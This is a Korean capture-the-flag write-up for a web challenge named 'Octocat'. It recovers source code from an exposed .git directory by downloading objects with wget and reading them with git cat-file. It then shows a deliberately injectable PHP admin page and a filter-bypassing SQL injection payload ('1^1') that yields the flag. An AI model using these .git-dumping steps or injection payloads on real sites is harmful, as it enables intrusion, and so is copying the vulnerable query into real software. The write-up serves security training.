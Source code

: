 # Octocat

**Description:**
> 코딩, 마크다운 작성 등 다재다능한 문어발 고양이  
> ^ↀᴥↀ^

## Keyword
* Git  
* SQL Injection

## Solution
![Main](img/001.png)  
메인 페이지에 접근해보면 MarkDown 문법 몇 가지가 소개되어 있고 별다른 기능을 볼 수 없습니다.  
다른 기능이나 페이지를 더 알아보기 위해서 robots.txt 파일에 접근하여 확인해보면 다음과 같이 /admin 디렉터리가 Disallow 되어 있는 것을 볼 수 있습니다.

robots.txt:  
```
User-agent: *
Disallow: /admin
```

/admin 디렉터리에 접근을 해보면 메인 페이지와 마찬가지로 별다른 정보를 얻을 수 없습니다.  
![Forbidden](img/002.gif)

메인 페이지의 제목인 Octocat과 MarkDown 문법들을 연관지어서 생각해보면 Github와 관련된 정보임을 알 수 있습니다.  
해당 서버는 개발자가 서버에서 Git을 사용하는 것으로 추측하고 Git을 사용하면서 발생할 수 있는 문제들을 생각하다보면 .git 디렉터리에 대해 알 수 있습니다.

.git 디렉터리는 로컬에서 Git 저장소를 사용하면서 발생하는 정보들을 기록하고 저장하는 공간입니다.  
일반적으로는 리모트 서버에 데이터를 push할 경우 해당 디렉터리는 포함되지 않은 상태로 전송되지만, 현재 로컬 저장소가 웹 서버 내에 있어서 .git 디렉터리에도 접근할 수가 있습니다.

/.git/  
```
Forbidden
You don't have permission to access /.git/ on this server.
```

디렉터리 리스팅이 되지 않아 폴더 내 정보를 알기가 어렵지만 아래의 파일을 통해 시작점을 찾을 수 있습니다.  
/.git/logs/HEAD  
/.git/logs/refs/heads/master  
```
0000000000000000000000000000000000000000 4dd07c84eb0806550ce82d9dd9517ae6f04bfaed do9dark <do9dark@gmail.com> 1506527313 +0900	commit (initial): Create Octocat
4dd07c84eb0806550ce82d9dd9517ae6f04bfaed f731b14ffc633e70888bf639c320464dd2c71920 do9dark <do9dark@gmail.com> 1506527416 +0900	commit: Create robots
f731b14ffc633e70888bf639c320464dd2c71920 377c0f08d7f0317b18df6d9e8bd956f7940831d9 do9dark <do9dark@gmail.com> 1506527919 +0900	commit: Create admin
```

commit 이력을 보면 마지막에 Create admin 되어 있는 부분을 볼 수 있습니다.  
그리고 해당 커밋의 정보는 앞에 해시 값을 분석하여 확인할 수 있습니다.

377c0f08d7f0317b18df6d9e8bd956f7940831d9  
37 | 7c0f08d7f0317b18df6d9e8bd956f7940831d9  
앞의 2자리는 디렉터리명이 되고 나머지 값은 파일명이 됩니다.  
그리고 해당 파일은 아래와 같이 저장되어 있습니다.  
/.git/objects/37/7c0f08d7f0317b18df6d9e8bd956f7940831d9

해당 파일의 정보를 확인하기 위해서 빈 디렉터리를 만든 다음 git init 명령어를 입력하여 임의의 Git 저장소를 만듭니다.  
```bash
# git init
Initialized empty Git repository in /Octocat/.git/
```

그리고 7c0f08d7f0317b18df6d9e8bd956f7940831d9 파일을 다운로드 받아서 .git/objects/ 디렉터리에 동일한 형태로 추가합니다.  
```bash
# wget https://do9.kr/Octocat/.git/objects/37/7c0f08d7f0317b18df6d9e8bd956f7940831d9
# mkdir .git/objects/37/
# mv 7c0f08d7f0317b18df6d9e8bd956f7940831d9 .git/objects/37/
```

다운받은 파일의 정보를 git cat-file 명령어를 통해 확인할 수 있습니다.  
```bash
# git cat-file -p 377c0f08d7f0317b18df6d9e8bd956f7940831d9
tree 6380e82b43310c73c3fef2236b989c9b1cad4ab6
parent f731b14ffc633e70888bf639c320464dd2c71920
author do9dark <do9dark@gmail.com> 1506527919 +0900
committer do9dark <do9dark@gmail.com> 1506527919 +0900

Create admin
```

확인한 정보에서 tree의 값을 동일한 방법으로 다시 다운로드 받아서 확인합니다.  
```bash
# wget https://do9.kr/Octocat/.git/objects/63/80e82b43310c73c3fef2236b989c9b1cad4ab6
# mkdir .git/objects/63/
# mv 80e82b43310c73c3fef2236b989c9b1cad4ab6 .git/objects/63/
# git cat-file -p 6380e82b43310c73c3fef2236b989c9b1cad4ab6
040000 tree ca2bff0667f07de553c49ffcae1ced0ff088b690	admin
040000 tree b238a9eb78dfaeaadde90073d9c31e726eaa448c	images
100644 blob 34293c323587dcc7876d877a9c9aa924d515db5c	index.php
100644 blob f8a0a9baa76ce27b98b42075bee53eada22b962d	robots.txt
```

중요 정보가 있을 것으로 생각되는 admin의 정보를 얻기 위해 다시 tree의 값을 확인합니다.  
```bash
# wget https://do9.kr/Octocat/.git/objects/ca/2bff0667f07de553c49ffcae1ced0ff088b690
# mkdir .git/objects/ca/
# mv 2bff0667f07de553c49ffcae1ced0ff088b690 .git/objects/ca/
# git cat-file -p ca2bff0667f07de553c49ffcae1ced0ff088b690
100644 blob 9c7aba35acd0b11b75139d8a8bc82dc6f3efad89	config.php
100644 blob f8becac1dc52e23d7844a9162b19968e8a1bc356	index.php
```

config.php 파일의 내용을 확인합니다.  
```bash
# wget https://do9.kr/Octocat/.git/objects/9c/7aba35acd0b11b75139d8a8bc82dc6f3efad89
# mkdir .git/objects/9c/
# mv 7aba35acd0b11b75139d8a8bc82dc6f3efad89 .git/objects/9c/
# git cat-file -p 9c7aba35acd0b11b75139d8a8bc82dc6f3efad89
<?php
	mysql_connect("localhost", "root", "toor");
	mysql_select_db("CTF");
	# Temp Flag...
	$flag = md5("None");
?>
```

Flag 값이 있으나 임시 값으로 현재 서버 값과는 다르기 때문에 인증할 수 없는 값입니다.  
미궁의 /admin/index.php 파일의 내용을 확인합니다.  
```bash
# wget https://do9.kr/Octocat/.git/objects/f8/becac1dc52e23d7844a9162b19968e8a1bc356
# mkdir .git/objects/f8/
# mv becac1dc52e23d7844a9162b19968e8a1bc356 .git/objects/f8/
# git cat-file -p f8becac1dc52e23d7844a9162b19968e8a1bc356
<!DOCTYPE html>
<html>
<head>
	<title>ADMIN</title>
	<style type="text/css">
		body {
			background-color: #FFFFFF;
			background-image: url("../images/admin.gif");
			text-align: center;
			vertical-align: middle;
		}
	</style>
</head>
<body>
	<?php
		error_reporting(0);
		include("config.php");
		
		if(isset($_GET['hack'])) {
			if(preg_match("/_|\.|0|9|=|\"|\'|\`|#|-|@|\(|\)|[a-z]/", $_GET['hack'])) exit("<h1>No Hack</h1>");
			
			$query = mysql_query("SELECT * FROM user WHERE no=$_GET[hack]") or die("<h1>No Hack</h1>");
			$data = mysql_fetch_array($query);

			# mysql> select * from CTF.user;
			# +-------+-------+
			# | no    | name  |
			# +-------+-------+
			# | 31337 | guest |
			# | pwned | admin |
			# +-------+-------+
			# 2 rows in set (0.00 sec)

			if($data[1] == "guest") echo("<h1>Access Denied</h1>");
			else if($data[1] == "admin") echo("<h1>Flag is TDCTF{{$flag}}</h1>");
			else echo("<img src='../images/hack.png'>");
		}
	?>
</body>
</html>
```

/admin/index.php 파일을 보면 GET 파라미터를 통해 hack 값을 입력 받아서 $data[1] 값이 admin이 되도록 조건을 맞춰주면 Flag를 획득할 수 있습니다.

하지만 hack 값에는 숫자 0, 9와 문자, 몇 가지 기호들을 입력할 경우 종료되도록 되어있고 admin이 되도록 조건을 맞춰주기 위해서는 no=pwned가 되어야 하기 때문에 일반적인 방법으로는 조건을 만족하게 할 수가 없습니다.

31337를 입력하면 Access Denied가 표시되고, 존재하지 않는 정보를 입력하면 아래와 같은 이미지가 표시됩니다.  
![Hack](img/003.png)

이 부분은 입력한 값이 0이 되도록 수식을 이용하여 우회할 수 있습니다.  
/admin/?hack=1^1  
/admin/?hack=1%1  
...  
위와 같이 수식의 결과 값이 0이 되도록 만들어주면 조건문 no의 저장된 데이터 중에서 문자열로 시작하는 정보만 출력이 되어 pwned의 값을 가진 admin이 $data[1]에 저장되어 Flag를 획득할 수 있습니다.  
![Flag](img/004.png)

## Flag
TDCTF{f914ccb5c1bb4a0cdff05d4ee69896f0}
